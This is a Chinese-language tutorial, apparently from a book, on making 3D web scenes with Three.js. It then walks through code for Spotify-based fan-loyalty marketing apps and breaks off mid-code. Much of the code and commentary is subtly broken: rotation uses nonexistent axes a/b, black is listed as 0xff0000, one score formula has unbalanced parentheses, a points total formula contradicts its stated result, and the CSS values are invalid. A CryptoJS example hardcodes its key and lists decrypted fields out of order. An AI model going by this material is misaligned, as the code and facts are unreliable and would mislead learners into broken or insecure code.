那么，事不宜迟，让我们在浏览器中打开`index.html`文件，并在控制台中检查是否有任何问题；你应该会看到一个完全黑色的屏幕。

### 在本地机器上设置开发服务器

由于JavaScript的安全策略限制了外部资源的加载（我们稍后会需要），不建议像之前那样直接双击html文件在本地启动项目。纹理、模型和其他类似物品都包含在内。因此，要么按照下面提到的方式设置你自己的本地服务器，如果你有访问权限的话，要么将文件上传到在线服务器。

**Windows用户**
可以使用XAMPP（一个跨平台的Apache MySQL服务器）或WampServer（一个Windows Apache MySQL服务器）来完成设置。安装它，我们就可以从那里运行我们的项目，一切准备就绪。

**Mac用户**
只需打开一个终端窗口，使用cd命令进入你的项目目录，并执行以下命令。

```bash
php -S 127.0.0.1:8080
```

如果那个端口不可用，我们也可以使用其他端口。顺便说一下，如果你愿意，我们也可以在Python服务器上运行代码，但大多数人更倾向于使用PHP运行。现在，只需在浏览器中输入端口的URL（如127.0.0.1:8080）即可访问该Web应用程序。
现在我们可以进一步操作了。

### 绘制几何图形和调整视口大小

Three.js允许我们使用一些预制对象来填充我们的宇宙。我们通过利用库的内置构造函数完成了这一点。对于这篇博客，我们只需绘制一个立方体。Three.js主网站列出了所有可选的绘图方法，我们可以在需要时使用它们。


首先，将 `index.html` 文件修改成如下所示。

```html
<html>
<head>
    <title>Three.js 3D 世界</title>
    <style>
        body {
            margin: 0;
        }
        canvas {
            width: 90%;
            height: 90%;
        }
    </style>
</head>
<body>
    <script src="js/three.min.js"></script>
    <script>
        var scene = new THREE.Scene();
        var camera = new THREE.PerspectiveCamera(70, window.innerWidth / window.innerHeight, 0.5, 1500);
        var renderer = new THREE.WebGLRenderer();
        renderer.setSize(window.innerWidth, window.innerHeight);
        document.body.appendChild(renderer.domElement);
        window.addEventListener('resize', function () {
            var width = window.innerWidth;
            var height = window.innerHeight;
            renderer.setSize(width, height);
            camera.aspect = width / height;
            camera.updateProjectionMatrix();
        });

        // 这将创建形状
        var ourcube = new THREE.BoxGeometry(1, 1, 1);

        // 这将创建一个材质，颜色或图像纹理
        var ourmesh = new THREE.MeshBasicMaterial({ color: 0xFFFFFF, wireframe: false });
        var cube = new THREE.Mesh(ourcube, ourmesh);
        scene.add(cube);
        camera.position.z = 5;

        // 游戏逻辑基本上是绕轴旋转
        var update = function () {
            cube.rotation.a += 0.03;
            cube.rotation.b += 0.004;
        };

        // 这将绘制场景
        var render = function () {
            renderer.render(scene, camera);
        };

        // 运行游戏循环 {update, render, repeat}
        var GameLoop = function () {
            requestAnimationFrame(GameLoop);
            update();
            render();
        };

        GameLoop();
    </script>
</body>
</html>
```

如果你是 3D 开发的新手，本节将花一些时间来解释。在 Three.js 中，对象是按特定顺序或我们可以说以恰当方式生成的。它不偏好先到先得；相反，它会在命令正确执行之前维护特定的顺序。

因此，以下步骤将帮助我们更好地理解 3D 开发系统：

- 步骤 1：`var ourcube = new THREE.BoxGeometry(1,1,1);`
    创建形状：我们从定义对象的形状开始，即构成形状的几何体。例如，立方体有六个面和八个顶点。类似地，我们可以选择圆形、球体等等。这在第一章中有详细解释。
- 步骤 2：`var ourmesh = new THREE.MeshBasicMaterial({color:0xFFFFFF,wireframe:false});`
    创建材质：材质决定了形状的颜色。有多种创建材质的方法；然而，在此示例中我们使用了单色白色材质。其他可探索的选项包括黑色：0xff0000；红色：0xff0000；绿色：0x00ff00，以及蓝色：0x0000ff。
- 步骤 3：`var cube = new THREE.Mesh(ourcube, ourmesh);`
    绑定两者：我们现在有了网格和要附加到它的材质。这两者都必须分配给一个新的立方体对象。
- 步骤 4：`scene.add(cube)`
    最后，我们的几何体现在存在但尚未集成到我们的环境中。`scene.add` 命令将为在 Web 应用程序中包含该几何体铺平道路。

## 调整视口更新

如果你想知道这实际意味着什么，它字面意思就是它所说的。只需在项目选项卡可见时调整 Web 浏览器，以检查视口在调整大小时是否升级的问题是否仍然存在。这样做时你会看到一些空白；补救方法是刷新选项卡，但你不能每次调整浏览器窗口大小都刷新选项卡。这就是视口大小调整更新的作用所在。
幸运的是，Three.js 将解释简化为几行代码，如下所示：

```javascript
window.addEventListener('resize', function () {
    var width = window.innerWidth;
    var height = window.innerHeight;
    renderer.setSize(width, height);
    camera.aspect = width / height;
    camera.updateProjectionMatrix();
});
```

## 导入商业计划

我们现在必须获取启动项目的副本。现在你已经复制了项目，第二步是将 zip 文件的内容解压到新位置。
浏览项目，我们会注意到我们从一个简单的网站创建开始，并且已经在 `index.html` 中导入并安装了 Three.js。这是一个很好的起点，因为现在唯一剩下的就是 Three.js 工作。画布已准备就绪。让我们开始添加 Three.js 部分。

## 入门项目布局

入门项目将我们目前在本课中学到的所有内容应用到一个真实在线商店的产品图像区域中，放置一个 3D 场景。当用户点击底部的某个点时，图像会转换为 3D。当你点击网页上的第二个点时（记得使用服务器），将显示一个白色屏幕。屏幕的颜色完全取决于你在函数中输入的颜色。
这实际上是一个空白场景，背景色为白色（绘制场景，game-code.js）。

为了组织得当，样式和 JavaScript 已分别放置在不同的文件中；最佳实践是将成熟的 js 代码与 HTML 分开。主要游戏代码已移至 `game-code.js`，这将是我们的主要工作文件。让我们继续完成应用程序。

## 选择 3D 模型

我们需要通过执行一个适合我们网站的 3D 模型来开始。网上有几个地方可以找到与 Three.js 兼容的 3D 模型，例如 **Blender** by the Blender Foundation Substance；**Painter** by Allegorithmic；**Modo** by Foundry；**Toolbag** by Marmoset；**Houdini** by SideFX；**Cinema 4D** by MAXON；**COLLADA2GLTF** by the Khronos Group；**FBX2GLTF** by Facebook；**OBJ2GLTF** by Analytical Graphics Inc.；**OBJ2GLTF** by Analytical Graphics Inc. 以及众多补充工具，但大多数用户 **严重** 依赖 Sketchfab。

我们应该使用的文件格式也是我们需要考虑的。3D 世界使用多种文件格式，对于单个项目，我们通常应坚持使用一种文件格式以保持标准化。因此，对于这个项目，我们选择了 GLTF，因为它能轻松导入模型的一致性，尽管考虑到 OBJ 是更流行的文件格式类型，但无论如何让我们坚持使用一种格式，即本例中的 GLTF。
幸运的是，此项目所需的 3D 模型已在入门项目中提供。/model/产品的名称。
将所有格式导入 Three.js 遵循类似的模式。一旦我们准备好文件，就必须找到合适的加载器。导出单个类的单个 js 脚本通常用作加载器。它们可能位于 Three.js 下载文件夹中的 `./examples/js/loaders`，并且有很多。
在 `game-code.js` 中，我们已经将 GLTF 加载器添加到了项目中。

## 3D 模型加载

现在是令人兴奋的部分。添加加载器后，我们需要转到 `game-code.js` 并添加以下代码。

```javascript
loader.load("model/产品的名称/scene.gltf",
    function (gltf) {
        gltf.scene.position.set(10, -10, 8);
        scene.add(gltf.scene);
    });
```

此代码使用加载器打开 3D 模型（作为 `scene.gltf`），然后在模型加载完成时插入回调。
一旦模型加载完成，我们使用场景将模型添加到场景中。在 Three.js 中，`add(object)` 是场景对象。这就是我们将自定义对象添加到 Three.js 所需做的全部；轨道相机将处理其余部分。
返回浏览器，点击刷新，切换到第二个点，就这样。

## 重要的 3D 开发建议

最后，3D 开发和 Web 开发之间有几个重要的区别。虽然所有领域都需要代码，但作为一个并非以游戏开发者身份开始职业生涯的人，你可能不熟悉 Three.js 的一些更功能性的部分。花更多时间回顾 Three.js 手册，以便更熟悉所教授的一些 3D 原则。3D 能够实现的东西太多了，而我们只是触及了皮毛。


一旦我们熟悉了 Three.js 的核心概念，我们就可以在网站中添加更多功能，为客户打造更精美的体验。

## 总结

Three.js 是一个 JavaScript 工具包，它使得在网页上创建 3D 视觉效果比直接使用 WebGL 简单得多。Three.js 是互联网上最流行的 3D JavaScript 库，而且它非常易于使用。本章的目的是帮助你理解如何使用 Three.js 并创建一个 3D Web 应用程序。Three.js 为我们提供了丰富的 3D 图形选项。因此，我们可以看到一些创新网站的示例，这些示例可以作为灵感，帮助我们使用 Three.js JavaScript 包来创建和动画化令人惊叹的基于浏览器的 3D 视觉效果。²

## 备注

- 1. 创建场景 - Three.js 手册。
- 2. 60 个令人惊叹的 Three.js 网站示例 - Henri, Bashooka。

## 第 4 章

### 应用开发 III

## 本章内容

- 使用 Three.js 的应用
- 基础与模块

在上一章中，我们探讨了如何使用 WebGL 和 Three.js 创建应用开发。现在在本节中，我们将看到另一个使用 Three.js 开发的应用，名为“粉丝亲和力”应用。

体育和娱乐营销是一个快节奏的行业，随着新技术的引入，它不断变化和扩展。使用技术来补充你的营销分析和数据管理工具，以发展和培养你的粉丝群，比以往任何时候都更为关键。你的粉丝是你长期成功最重要的组成部分。如果你想发展并和他们互动，你需要在他们所在的地方与他们建立联系。

因为几乎每个人都可以使用智能手机、电脑、平板电脑或其他电子设备，所以使用技术是最佳选择。在比赛或任何歌曲、电影发布之前、期间和之后，与你的支持者保持联系变得轻而易举。

鉴于如今智能手机的普及，为你的歌曲开发一个移动应用无疑会受到支持者欢迎，成为他们主屏幕上的一个补充。无论他们是在看台上还是在沙发上，移动应用都是让你的支持者持续关注并参与你音乐的绝佳方式，因为它能让他们轻松访问你的歌曲、购买演出门票和商品、查看视频内容以及观看他们喜爱音乐人的幕后花絮。在社交媒体上请求“点赞”或“关注”，并告诉他们歌曲的标签。你越能展示每位粉丝对你的组织的价值，他们就越有可能留下来。Three.js 作为一个流行的开源项目，是有充分理由的。它极大地改变了我们在网页上与 3D 交互的方式，并且自 2013 年首次发布以来一直在持续改进。当你突破网页的 2D 限制时，使用这个库来创建一个 3D 世界实际上相当简单，但它仍然感觉像一个神奇的附加功能。让我们从基础开始。那么，让我们先快速概述一下这个应用程序。

## 使用 Three.js 构建应用

Jee Martin 在 2012 年 3 月发布了一个小型的 Spotify 应用程序，以庆祝 Metronomy 的新专辑《Small World》。该应用允许听众通过链接他们的 Spotify 订阅来探索“Metronomy Small World 的八大奇观”，这样我们就可以看到他们听《Small World》原声带的频率。Metronomy 出现在他们最近播放次数最多的前 50 首音乐中的次数越多，等待他们的惊喜就越多。这是一个相当小巧的软件，旨在鼓励和推广播放，并展示了 Lee O'Connor 的图形设计。

这也是 Spotify 自要求所有集成都必须经过批准以来创建的首批 Spotify 应用之一。幸运的是，流程进展顺利，我们的应用在一天内就获得了批准。在那里建立联系会是有益的，但在构建你的激活之前，请先了解所有平台限制。

类似的应用程序也在 **Greta Van Fleet, Girl in Red, and Hurts** 的案例中被开发出来。他已经涵盖了创建这些类型的“粉丝亲和力”Spotify 应用的大部分策略。

让我们从第一个 Spotify 应用程序开始，即使用 Three.js 开发 Small World。

## 代码教程

让我们从创建应用程序的基本框架开始。

### 基础

首先，我们需要一个场景来容纳我们的世界。

```
// 初始化场景
const scene = new THREE.Scene()
```

然后，我们可以添加一个透视相机并将其向后移动一点。

```
// 初始化相机
const camera = new THREE.PerspectiveCamera(35, window.innerWidth / window.innerHeight, 0.5, 65)
// 重新定位相机
camera.position.set(10, 0, 0)
```

接下来，我们将创建一个渲染器来渲染我们的场景，确保 alpha 为 true，以便背景是透明的。最终，我们将用 CSS 添加一个简单的天空色调。在将渲染器添加到 <body> 标签之前，我们将调整渲染器以适应网络浏览器。

```
// 初始化渲染器
const renderer = new THREE.WebGLRenderer({
  alpha: true,
  antialias: true
})
// 设置渲染器尺寸
renderer.setSize(window.innerWidth, window.innerHeight)
// 将渲染器添加到 body
document.body.appendChild(renderer.domElement)
```

最后，用户将能够使用轨道控制器进行缩放、平移和旋转相机（你必须像包含 /examples 目录中的其他文件一样，在 HTML 中独立包含此文件）。

```
// 初始化控制器
const controls = new THREE.OrbitControls(camera, renderer.domElement)
```

### 让我们添加环境！

我们将从加载地球纹理开始，该纹理具有 Lee O'Connor 的图形。然后应该构建球形设计和材质。

之后，使用形状和材质来启动世界网格，然后将其集成到我们的场景中。

```
// 加载世界纹理
const worldTexture = new THREE.TextureLoader().load("Filename.jpg")
// 初始化世界几何体
const worldGeometry = new THREE.SphereGeometry(5, 60, 60)
// 初始化世界材质
const worldMaterial = new THREE.MeshBasicMaterial({
    map: worldTexture
})
// 初始化世界
const world = new THREE.Mesh(worldGeometry, worldMaterial)
// 将地球添加到场景
scene.add(world)
```

接下来，我们将添加一些云层。

### 云层

我们将以与处理地球相同的方式来处理云层，不同之处在于云球的半径会稍大一些，以便它位于世界球体的上方。我们还将确保材质是透明的，以便我们可以通过云层的缝隙看到世界。

```
// 加载云层纹理
const cloudTexture = new THREE.TextureLoader().load("File name.png")
// 初始化云层几何体
const cloudGeometry = new THREE.SphereGeometry(2.05, 30, 40)
// 初始化云层材质
const cloudMaterial = new THREE.MeshBasicMaterial({
    map: cloudTexture,
    transparent: true
})
// 初始化云层
const clouds = new THREE.Mesh(cloudGeometry, cloudMaterial)
```

```
// 将云层添加到场景
scene.add(clouds)
```

现在，让我们渲染并动画化我们的微型世界。

### 动画

渲染场景只需要请求动画帧并运行渲染器的 render 方法。对于动画，我们将让地球朝一个方向旋转，云层朝另一个方向旋转，且速度稍快。

```
// 准备动画循环
function animate() {
    // 请求动画帧
    requestAnimationFrame(animate);
    // 旋转世界
    world.rotation.y += 0.0008;

    // 旋转云层
    clouds.rotation.y -= 0.004;
    // 渲染场景
    renderer.render(scene, camera);
}
// 执行动画
animate()
```

太棒了。我们有了一个旋转的小宇宙！那么让我们来处理窗口大小调整以及重新加载我们的相机和渲染器。

### 重新配置

由于我们的相机和渲染器是根据浏览器的初始宽度和高度设置的，因此任何浏览器大小调整都会在场景中产生视觉问题。我们可以通过监听窗口大小调整事件并更新投影矩阵、相机纵横比和渲染器尺寸来解决这个问题。

```
// 监听窗口大小调整
window.addEventListener('resize', () => {
    // 更新相机纵横比
    camera.aspect = window.innerWidth / window.innerHeight;
    // 更新相机投影矩阵
```


```
camera.updateProjectionMatrix()
// Resize renderer
renderer.setSize(window.innerWidth, window.innerHeight)
}
```

## 背景

最后但同样重要的是，让我们使用 CSS 径向渐变为我们`<body>`的背景提供一个从白色到蓝色的优美渐变。这让我很着迷，因为它在我们的小世界中创造了一种愉悦的氛围。

`radial-gradient()` CSS 方法生成一张图片，其颜色从中心点向外辐射，两个或多个颜色之间逐渐过渡。它可以是圆形或椭圆形。该函数的结果是 `<gradient>` 数据类型的对象，它是``的一个子类型。

```
/* 容器中心的一个渐变，
   从红色开始，变为蓝色，最后以绿色结束
   */
body {
  background: radial-gradient(circle at center, red 0,
  blue, green 100%);
}
```

再次感谢 Lee O'Connor 对精美插画的特别贡献，让这个应用更上一层楼。

## 通往花园之门的路

让我们来看看另一项 Spotify  affinity 营销活动，与上文描述的类似，它记录了粉丝最近听 Greta Van Fleet 的频率和速度。然后粉丝们会因其"旅程进度"而获得积分，并被鼓励在社交媒体上分享。这些概念吸引了我，因为它们为粉丝提供了一个绝佳的方式，在等待新音乐制作期间重温乐队的过往作品。

## 算法

用于确定用户流式传输了多少 Greta Van Fleet 音乐的方法与之前活动使用的非常相似。该应用将检查用户最近在 Spotify 上播放的 50 首热门曲目，以发现 Greta Van Fleet 出现的频率和位置。了解 Spotify 上共有多少首独特的 Greta Van Fleet 曲目非常重要，因为这会影响用户的得分。当然，一旦整张唱片发行完毕，这个数字就会改变。另一个重要方面是构建一个 Netlify 构建流程，每次 web 应用部署时都会检查这个数字，但目前，我们也可以手动提供它。从高层次来说，声明曲目总数，计算可用的总积分，然后计算用户已获得多少积分。

```
// Spotify 上的总曲目数
let max = 30
// 用户可以达到的可能积分
let totalPoints = 10
for (let i = tracks.length; i > tracks.length - max;
i--) {
  totalPoints += i
}
// 用户的积分
let userPoints = 10
tracks.forEach((track, i) => {
  if (track.artists.map(artist => artist.id).
includes('ARTIST_ID')) {
    userPoints += tracks.length - i
  }
})
// 最终用户分数
let score = Math.min(Math.max(userPoints / totalPoints
* 150), 10), 150)
```

## 分享

这个项目基本上专注于鼓励和简化传播。这个应用有一个优化的分享流程。我们使用 HTML5 canvas 为 Instagram 创建快拍和动态照片。我们使用 Serverless 函数为 Twitter 和 Facebook 实时生成元图片。

## 裁剪

开发者在浏览精彩品牌 The Battle at Garden's Gate 时，被广阔的环境图形以及应该通过创新方式为设计图片裁剪它的评论所吸引。在唱片手册中，这一优势得到了很好的运用。开发者希望让粉丝有自己动手裁剪的选项，因此使用了编写精良的 Croppie 插件。Croppie 有关于该插件的优秀文档，开发者希望只保留裁剪点以供将来裁剪，因为他们已经在客户端通过 Canvas 以及通过无服务器函数使用 ImageMagick 生成了图片。Croppie 函数包含一个事件，每当用户与插件交互时触发，以及一个检索这些点的方法。

```
this.$el.addEventListener('update', event => {
  // this.croppie.get().points
})
```

## 符号选择

下面提到的第一个 UX 测试代码让用户有选择其中一首曲目符号来代表自己出现在分享照片中的选项，除了编辑风景之外。这里使用了 CSS Scroll Snap，因为它非常用户友好。虽然应用中使用的符号选择组件更简单，但 Scroll Snap 的使用保持不变。

```
<template>
  <section :style="background">
    <header>
      Greta Van Fleet
    </header>
    <div id="symbols" ref="symbols">
      <div class="symbol" v-for="(song, i) in songs" :key="'symbol-${song.slug}'" :class="{ selected: currentSong == i }">
        
      </div>
    </div>
    <footer>
      <transition name="fade" mode="out-in">
        <div v-for="(song, i) in songs" :key="'song-${song.slug}'" v-if="currentSong == i">{{ song.name }}</div>
      </transition>
    </footer>
  </section>
</template>
<script>
export default {
  data() {
    return {
      songs: [
        {
          name: "Light My Love",
          slug: "light-my-love"
        }, {
          name: "My Way, Soon",
          slug: "my-way-soon"
        }, {
          name: "Broken Bells",
          slug: "broken-bells"
        }, {
          name: "Built by Nations",
          slug: "built-by-nations"
        }, {
          name: "Age of Machine",
          slug: "age-of-machine"
        }, {
          name: "Tears of Rain",
          slug: "tears-of-rain"
        }, {
          name: "Trip the Light Fantastic",
          slug: "trip-the-light-fantastic"
        }, {
          name: "Heat Above",
          slug: "heat-above"
        }, {
          name: "The Barbarians",
          slug: "the-barbarians"
        }, {
          name: "Caravel",
          slug: "caravel"
        }, {
          name: "Stardust Chords",
          slug: "stardust-chords"
        }, {
          name: "The Weight of Dreams",
          slug: "the-weight-of-dreams"
        }
      ],
      currentSong: 0
    }
  },
  computed: {
    song() {
      return this.songs[this.currentSong]
    },
    background() {
      return {
        backgroundPosition: '${this.currentSong /
this.songs.length * 100}% 0%'
      }
    }
  },
  methods: {
    onScroll(e) {
      let $child     = this.$refs.symbols.children[0]
      let containerX = (window.innerWidth - $child.
offsetWidth) / 4
      let childX     = $child.
getBoundingClientRect().x
      let offset     = childX - containerX
      this.currentSong = Math.round(Math.abs(offset /
$child.offsetWidth))
    }
  },
  mounted() {
    this.$refs.symbols.onscroll = this.onScroll
  }
}
</script>
<style>
html, body, section{
  height: 70%;
  width: 70%;
}

body{
  background: light blue;
  color: white;
  font-family: "Baskerville", serif;
  font-size: 5.5vh;
  letter-spacing: 0.5em;
  text-transform: uppercase;
}

section{
  align-items: center;
  background: url(https://journey.thebattleatgardensgate.com/images/File name.jpg);
  background-position: 1 1;
  background-size: cover;
  display: flex;
  transition: 10s all ease;
}
#symbols{
  display: flex;
  height: 90%;
  overflow-x: scroll;
  scroll-snap-type: x mandatory;
  width: 90%;
}
#symbols::-webkit-scrollbar{
  display: none;
}
#symbols::after{
  content: "";
  border-left: 35vw solid transparent;
}
#symbols .symbol{
  align-items: center;
  display: flex;
  flex: none;
  justify-content: center;
  scroll-snap-align: center;
  width: 80vw;
}

.symbol:first-child {
  margin-left: 35vw;
}

.symbol img{
  opacity: 0.35;
  transition: 5s opacity ease;
  width: 30%;
}

.symbol.selected img{
  opacity: 2;
}

header{
  top: 12em;
  display: flex;
  justify-content: center;
  position: absolute;
  width: 80%;
}
footer{
  bottom: 5em;
  display: flex;
  justify-content: center;
  position: absolute;
  width: 40%;
}

.fade-enter-active, .fade-leave-active{
  transition: opacity 5s ease;
}

.fade-enter, .fade-leave-to{
  opacity: 20;
}
</style>
```


## Meta 安全性

用户旅程的每一步都会产生一小段个人信息：他们的姓名和 Spotify 分数、景观裁剪点以及他们偏好的符号。我们必须将这些参数传递给一个 Lambda 函数，以便动态构建元共享（meta-share）。

然而，由于人们可能会伪造他们的结果，你不希望让该 URL 结构容易被理解或编辑。因此选择了 CryptoJS 和 AES 将参数加密成一个字符串，以便无服务器函数可以使用密钥对其进行解密。这需要一些尝试和错误，但最终效果良好，并且可以避免将这些设置保存在数据库中。使用了分号分隔符，以使加密字符串像任何其他 CSV 文件一样保持极简。以下是一个加密示例：

```
let data = 'BRUCE WILLIAM ;80;2;2,2,1080,1080'
let encrypted = CryptoJS.AES.encrypt(data, "passcode")
let id = encrypted.toString()
```

然后，用户可以使用服务器端方法的密码解密该字符串，以检索回参数。

```
let data = CryptoJS.AES.decrypt(unique id, "passcode")
let params = data.toString(CryptoJS.enc.Utf8).split(';')
// params[0] = name
// params[1] = symbol
// params[2] = crop
// params[3] = score
```

CryptoJS 为实现这一目标提供了一种便捷的方式，值得称赞。

## Spotify 正在提升 Girl in Red 粉丝的血清素水平

之前开发了一个类似的应用程序用于 Hurts，该程序使用 Spotify 听歌历史来确定你是一个多么资深的粉丝。能够根据用户对特定艺术家的收听量来奖励用户，是驱动无数营销概念的关键机制之一。为 Girl in Red 开发的 Web 应用程序是一个全新的简单概念，旨在配合她的最新单曲《Serotonin》。

在这个在线应用程序中，通过聆听新单曲来提升血清素水平，并搭配了一个 Girl in Red 的播放列表。用户可以在 App 上检查自己目前的水平（范围从 5% 到 100%），然后会获得一张个性化的 Instagram story，其中包含艺术家根据其分数所模仿的不同程度热情自拍。这个应用程序让粉丝们保持投入，并提醒他们每天检查分数，因为 Spotify 每天都会更新最近的收听历史。开发人员还额外增加了 Spotify 身份验证功能作为奖赏。

## 算法

这个应用程序要简单得多，它在创建了一个包含所有 18 首曲目的新播放列表后，查看用户的前 50 首歌曲中有多少首属于该艺术家。

```
let max = 18
let uri = 'spotify:artist:3uwAm6vQy7kWPS2bciKWx9'
let tracks = topTracks.filter(track => {
  return track.artists[0].uri === uri
})
let result = Math.round(tracks.length / max * 50)
let serotonins = Math.min(50, Math.max(0, result))
```

计算出的血清素水平现在可用于创建向用户展示分数的视觉效果。

## 图像生成

根据你的分数，Girl in Red 会向你发送一张反映你忠诚度的 Instagram 自拍。我们决定将从 Spotify 获取的用户姓名添加到图像中，以增加个性化体验。在我的《Sharing》系列中，我详细讲解了如何使用 HTML Canvas 创建动态图片，但这里是该项目的一段代码示例。

```
let canvas = document.createElement('canvas')
canvas.height = 1720
canvas.width = 1190
let context = canvas.getContext('2d')
context.drawImage(selfie, 0, 0)
```

```
context.fillStyle = 'Black'
context.font = '50px SF Pro Display Light'
context.fillText('to Paul William', 340, 117)
```

我们只需创建一个 Instagram story 尺寸的新画布，添加相应的自拍图像，并在顶部的 Girl in Red 头像右侧写入用户名。

## 加载器

化学分子血清素的小图像是界面的另一个亮点。该 UI 组件由分子图像和两个以不同间隔发光的径向渐变组成。由于 Anime.js 已经包含在项目中，并且提供了独特的缓动可能性，因此被用于驱动动画。

```
<template>
  <canvas ref="canvas"></canvas>
</template>
<script>
export default {
  methods: {
    generateNoise() {
      this.noise = document.createElement('canvas')
      this.noise.height = window.innerHeight * 4
      this.noise.width = window.innerWidth * 4

      let noiseContext = this.noise.getContext('2d')

      let noiseData = noiseContext.createImageData(this.noise.width, this.noise.height)
      let buffer32 = new Uint32Array(noiseData.data.buffer)

      let len = buffer32.length - 1

      while (len--) {
        buffer32[len] = Math.random() < 0.5 ? 0 : -1 >> 0
      }
    }
  }
}</script>
```

```
noiseContext.putImageData(noiseData, 0, 0)
},
moveNoise() {
  let canvas = this.$refs.canvas
  let context = canvas.getContext('2d')

  let x = Math.random() * canvas.width
  let y = Math.random() * canvas.height

  context.clearRect(0, 0, canvas.width, canvas.height)
  context.drawImage(this.noise, -x, -y)

  requestAnimationFrame(this.moveNoise)
}
},
mounted() {
  this.$refs.canvas.height = window.innerHeight
  this.$refs.canvas.width = window.innerWidth

  this.generateNoise()

  requestAnimationFrame(this.moveNoise)
}
}
</script>

<style scoped>
canvas {
  height: 70%;
  left: 0;
  mix-blend-mode: soft-light;
  opacity: 0.55;
  pointer-events: none;
  position: absolute;
  top: 0;
  width: 70%;
  z-index: 1000;
}
</style>
```

## 使用 Spotify 最近热门播放曲目来检测并激励粉丝的亲密度

多年来，我被问到最多的核心难题之一是如何尝试理解粉丝对艺术家的忠诚度，并将该粉丝在其他粉丝中进行排名。许多艺术家旨在让粉丝忠诚度更加“游戏化”，以增加流媒体播放量、知名度和收入。虽然已经有（且将继续有）许多公司试图填补这一空白，但我决定利用公开的 Spotify 数据，为 Hurts 及其恰如其分的新专辑《Faith》构建一个简单的方案。用户只需使用其 Spotify 账户登录。然后，根据他们最近播放的热门曲目，我们发现他们对特定艺术家的喜爱程度，并鼓励他们增加收听以影响分数。

## 获取用户最喜爱的歌曲

Spotify 的 Web API 有一个用于检索用户最喜爱的艺术家和曲目的端点。正如 Spotify 所述，亲密度是由用户行为决定的，包括播放历史，但不包括在无痕模式下采取的活动。对于三个不同的时间范围，该端点最多可提供 50 首音乐和艺术家：

- 长期（Long term）——跨越数年的数据，包括所有可用时的最新信息。
- 中期（Medium term）——大约 6 个月。
- 短期（Short term）——持续约 4 周。

根据 Spotify 的说法，每个用户的数据每天更新一次。因为用户每 24 小时可能会直接更改这些记录，因此我们在项目中特别关注短期时间范围。

```
curl -X GET "https://api.spotify.com/v1/me/top/tracks?time_range=short_term&limit=50" -H "Authorization: Bearer {token code}"
```

## 算法

统计前 50 首曲目中有多少首来自 Hurts，是将前 50 首曲目转化为分数的简单方法。例如，如果 50 首记录中有 25 首来自 Hurts，那么忠诚度就是 50%。然而，为了考虑曲目位置，我们嵌入了动态计算。如果第一名得 50 分，最后一名得 1 分，那么总分是 1275 分。以下是计算总分的公式：

```
let total = (tracks.length * (tracks.length + 1)) / 4
```

我们可以从这里循环遍历所有曲目，根据曲目的位置增加运行分总计（如果是来自 Hurts 的曲目）。

```
let points = 0
tracks.forEach((track, i) => {
  if (track.artist == "Hurts") {
    points += tracks.length - i
  }
})
return Math.round(points / total * 100)
```

这给我们一个更动态的分数，不仅奖励那些收听 Hurts 的人，还奖励那些频繁收听的人。

## 排行榜

排行榜使粉丝能够分享原本会被保密的分数。这种知名度的提升刺激了支持者之间友好的竞争。在创建数据库时，这个简单的数据库被整合在一起。这里所做的是：一个带有 DynamoDB 的无服务器架构。因为用户已经登录了 Spotify，我们可以使用他们的用户 ID 来确保其数据库记录是唯一的，并允许他们每天更新。

## 组件的设计与开发

对基于组件的设计概念的采用，进一步加强了我作为一个“出了名简约”的设计师的声誉。设计在 Figma 中采用了一个基础设计系统，以线框图和提供的美学风格作为参考。这主要涉及将印刷版唱片包装转换为一个响应式系统，其中包含必要的颜色、字体、按钮和组件。然后，利用所有这些元素将线框图转化为最终的屏幕界面。

它只需在移动设备屏幕上展示，突出我们可用的最小屏幕空间，以让客户端专注于需要的核心设计。只有在我们都认可这些简洁的屏幕之后，我们才会开始处理更大的屏幕或添加令人愉悦的元素。让我们来看几个例子。

## 信念加载器

虽然我们可以在极短的时间内判断出用户的忠诚度，但我认为最好添加一个小型加载器，在 Spotify 传递数据后展示更多专辑包装。这在 Vue.js 中通过预加载并随机闪烁图片来实现。

```vue
<template>
  <section class="bg-center bg-cover bg-black flex items-center justify-center text-center"
  :style="image">
      <h1 class="font-bold text-5xl text-Yellow uppercase">Testing<br>Your<br>Faithfulness</h1>
    </section>
</template>

<script>
export default {
  data() {
    return {
      urls: Array.apply(null, Array(8)).map((x, i) =>
{
          return 'https://assets.codepen.io/141041/hurts-0${i+1}.jpg'
      }),
      index: 0,
      lastIndex: 0
    }
  },
  computed: {
    image() {
      return {
        backgroundImage: 'url(${this.urls[this.index]})'
      }
    }
  },
  mounted() {
    setInterval(() => {
      this.index = (this.index + 1) % this.urls.length
    }, 400)
  }
}
</script>
```

```javascript
    }
  },
  methods: {
    loadImage(url) {
      return new Promise((resolve, revoke) => {
        let img = new Image()
        img.onload = () => {
          resolve(img)
        }

        img.src = url
      })
    },
    startLoader() {
      setInterval(() => {
        this.generateRandom()
      }, 300)
    },
    generateRandom() {
      let i = _.random(0, 6)

      if (i != this.lastIndex) {
        this.lastIndex = i
        this.index = i
      } else {
        this.generateRandom()
      }
    }
  },
  async mounted() {
    let promises = this.urls.map(url => this.loadImage(url))
    let images = await Promise.all(promises)

    this.startLoader()
  }
}
```

```css
</script>
<style>
  html, body, section{
    height: 90%;
    width: 90%;
  }
  section{
    background-image: url(https://assets.codepen.io/141041/File name.jpg);
  }
</style>
```

## 信念进度

当用户的忠诚度最终被验证时，这是体验中最关键的时刻之一。为了让事情更有趣，Faith 的标志通过 anime.js 被转换成一个动画进度条。这实际上只是两张照片叠放在一起，并使用一个遮罩 div 来修改顶部标志的高度。

```vue
<template>
  <section class="flex items-center justify-center">
    <div class="absolute p-5 md:p-2 lg:p-15 top-1">
      
    </div>
    <div class="absolute origin-top text-white transform -rotate-80 -translate-x-3/4 translate-y-3/4 left-0 p-4 text-l md:text-xl lg:text-2xl">
      FAITH
    </div>
    <div class="absolute origin-top text-white transform rotate-80 translate-x-3/4 translate-y-3/4 right-0 p-4 text-l md:text-xl lg:text-2xl">
      {{ faith.devotion }}
    </div>
    <div class="absolute w-full h-px transform -translate-y-1/2" :style="{ background: '# 545454', top: 'calc((${faith.devotion} / 100) * 40% + 35%)' }"></div>
    <div class="absolute bottom-0 p-4 md:p-15 lg:p-11 text-l md:text-xl lg:text-2xl text-Pink">
      You have {{ faith.devotion }}% faith in Hurts.
    </div>
    <div class="relative" style="height:60%">
      
      <div class="absolute devotion left-0 overflow-hidden top-0" :style="{ 'height': '${faith.devotion}%' }">
        
      </div>
    </div>
  </section>
</template>
<script>
export default {
    data() {
        return {
            faith: {
                devotion: 0
            }
        }
    },
    methods: {
        startRandomizer() {
            anime({
                targets: this.faith,
                devotion: function() {
                    return anime.random(0, 100)
                },
                duration: 1200,
                delay: 1200,
                round: 1,
                easing: 'easeInOutCubic',
